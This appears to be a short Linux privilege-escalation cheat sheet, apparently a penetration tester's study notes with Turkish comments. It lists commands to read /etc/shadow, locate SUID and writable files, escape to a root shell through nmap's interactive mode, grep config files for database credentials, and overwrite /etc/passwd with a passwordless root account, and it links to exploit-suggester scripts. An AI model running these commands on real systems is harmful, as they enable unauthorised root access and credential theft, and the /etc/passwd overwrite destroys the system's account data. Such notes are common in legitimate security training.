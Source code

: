 
# Linux Privilage Escalation Notes

* **Guide**

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

* **General Command**

Kernel version detection & Priv Check:
```
cat /etc/issue
uname -a
cat /proc/version
cat /etc/shadow @Normal kullanıcı göremez
```

Services are Running as Root

```
ps aux | grep root
```


Find Suit & Guid Bit & Writeable Files
```
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
find / -perm -2 ! -type l -ls 2>/dev/null @Yazma yetkisi olan dosyalar
```

Try :)
```
sudo su
sudo -l
```

Edit passwd file 
```
echo root::0:0:root:/root:/bin/bash > /etc/passwd
su
```

Nmap permissions

```
sudo nmap --interactive
!id
!cat /root/proof.txt
```

Network connections

```
netstat -ano
```

Metasploit Exploit Suggester

```
run post/multi/recon/local_exploit_suggester
```

Find something

```
cat config.php | grep db
```

* **Automated Scripts:**

* Linux Priv Checker:

https://www.securitysift.com/download/linuxprivchecker.py

* LinEnum:

https://github.com/rebootuser/LinEnum

* Linux Exploit Suggester:

https://github.com/mzet-/linux-exploit-suggester

* Old Linux Exploit SuggersteR:

https://github.com/PenturaLabs/Linux_Exploit_Suggester

* Linux Post Exploatation:

https://github.com/reider-roque/linpostexp









